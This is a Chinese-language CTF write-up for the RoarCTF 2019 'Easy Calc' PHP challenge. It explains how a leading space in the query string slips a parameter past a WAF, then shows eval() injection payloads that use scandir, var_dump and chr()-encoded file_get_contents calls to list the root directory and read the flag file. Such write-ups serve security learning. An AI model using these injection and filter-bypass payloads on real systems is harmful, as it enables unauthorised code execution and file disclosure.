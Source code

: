 ```yaml
---
layout: post
title: [RoarCTF 2019]Easy Calc
categories: [web,php]
---
```

## 额在PHP里有许许多多的绕过检测的方法，还有数不胜数的执行函数，所以任重道远啊

### 原理1：利用PHP的字符串解析特性

#### 利用PHP的字符串解析特性Bypass

```php
PHP将查询字符串（在URL或正文中）转换为内部$_GET或关联数组$_POST。值得注意的是，查询字符串在解析的过程中会将某些字符删除或用下划线代替。
例如：
/?foo=bar变成Array([foo]=> “bar”)。
/? foo=bar变成Array([foo]=> “bar”)。 //?号后有一个空格
/?+foo=bar变成Array([foo]=> “bar”)。 //?号后有一个+号
```

### 原理2：利用scandir()列出目录和文件,var_dump()用于输出

> scandir()函数返回指定目录中的文件和目录的数组。
scandir(/)相当于ls /
var_dump()相当于echo

### 原理3：利用file_get_contents()读取并输出文件内容

> 例如 file_get_contents(/flag.php)，读取/flag.php的代码

***

#### 做题步骤访问

> /calc.php，发现源码。大概意思是：GET传入一个num，并且对num的值进行黑名单过滤，最后eval()执行
需要绕过waf对num的检测即可

#### 用到原理1：PHP的字符串解析特性。

> ? num=phpinfo();可以显示结果由于php跳过空格解析。

#### 用到原理2：现在来读取有哪些目录了

> ? num=var_dump(scandir(chr(47)))相当于? num=system(ls /)。chr(47)=" / "。

#### 用到原理3：找到flag所在文件名，那就来读文件内容吧。

> ? num=file_get_contents(chr(47).chr(102).chr(49).chr(97).chr(103).chr(103))==>>file_get_contents(/f1agg)相当于? num=system(cat /f1agg)

***
